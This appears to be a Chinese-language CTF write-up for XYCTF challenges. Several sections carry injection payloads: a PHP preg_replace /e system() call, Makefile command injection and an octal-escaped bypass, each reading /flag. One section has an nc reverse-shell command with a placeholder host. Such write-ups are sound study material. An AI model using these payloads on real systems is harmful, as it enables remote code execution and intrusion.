

### Game

把图片丢到谷歌搜索里，找到一个游戏叫Papers Please。

### 熊博士

很容易看出置换规则，flag里面的内容小写。

```
XYCTF{LIU_YE_MEI_YOU_XIAO_JJ}
```

### ZZL的护理小课堂

把flag的判断逻辑丢到控制台修改后运行，就可以直接把flag吐出来。

### Warm up

一道PHP绕过的问题，前面是弱类型比较问题，后面是preg_replace函数执行系统命令，正则匹配可以用数组绕过。

参考：https://www.cnblogs.com/-chenxs/p/11593878.html

```
GET：a=/(.*)/e&b=system('ls /')&c=ab
POST：a[]=1
```

### ezmd5

找两张md5一样的图片上传可以解决，参考[文件夹](/Notes/web/2pic_with_same_md5)。据说可以用fastcoll.exe生成，程序在我star里有，别人的介绍：



### ezMake

这里目前知道三种方法

```shell
直接在链接后加/flag下载flag文件
echo可以使用	echo $(shell cat /flag)或者echo $(<flag)
利用报错输出	$(<flag)或者$$(<$<)	目前还不清楚原理
```

### ez?Make

据说可以nc反弹shell，但是我没有成功

```shell
 nc ip port -e sh		再到本地对应端口开启监听
 cd ..&&cd ..&&cd ..&&pwd		常用的命令被ban了，先cd到根目录
 more [!-z][!-z][!-z][!-z]		再进行查看文件操作，[!-z]相当于匹配所有的字符、符号数据，即可查看flag文件内容
 其中匹配flag可以将[!-z]替换成[e-h][k-m][^-b][e-h]
```

用more指令查看php源代码如下：

```php
<?php
function waf($cmd) {
if (preg_match('/\n|\r|f|l|a|g|\?|\*|\;|\/|source|SOURCE|\$|\@/',$cmd)){
return false;
}
return $cmd;
}
$cmd = waf($_GET['cmd']);
if ($cmd === false) {
echo json_encode(array('makefileContent' => 'failed', 'output' => 'no'));
} else {
$makefileContent = <<<EOD
SHELL := /bin/bash
.PHONY: FLAG
FLAG: /flag
\t$cmd
EOD;
if (file_put_contents('Makefile', $makefileContent) !== false) {
$command = "make -f Makefile 2>&1";
$output = shell_exec($command);
echo json_encode(array('makefileContent' => $makefileContent, 'output'
=> $output));
} else {
echo json_encode(array('makefileContent' => 'failed', 'output' =>
'failed'));
}
}
?>
```

### ezRCE

给了白名单，只能用数字和`\'$<`，直接丢exp：

```shell
$'\143\141\164'<$'\57\146\154\141\147'	/ cat</flag	<表示输入重定向，将文件输入给命令

```

参考：利用shell脚本变量构造无字母数字命令

https://xz.aliyun.com/t/12242?time__1311=mqmhD5YIMD7GkDlc%2BEH%2BDfgpkDkzDAEiD	https://www.freebuf.com/articles/system/361101.html


### happy to solve1

q是$2^{512}$-p的下一个质数，那么p+q就比$2^{512}$大一点，所以我们可以暴力破解phi。

```python
from Crypto.Util.number import *
import gmpy2
n = 24852206647750545040640868093921252282805229864862413863025873203291042799096787789288461426555716785288286492530194901130042940279109598071958012303179823645151637759103558737126271435636657767272703908384802528366090871653024192321398785017073393201385586868836278447340624427705360349350604325533927890879
c = 14767985399473111932544176852718061186100743117407141435994374261886396781040934632110608219482140465671269958180849886097491653105939368395716596413352563005027867546585191103214650790884720729601171517615620202183534021987618146862260558624458833387692782722514796407503120297235224234298891794056695442287
flag = True
phi = n - 2**512
e = 65537
while flag:
    d = gmpy2.invert(e, phi)
    result = pow(c, d, n)
    print(d)
    if long_to_bytes(result).startswith(b"XYCTF{"):
        print(long_to_bytes(result))
        flag = False
    phi -= 1
```

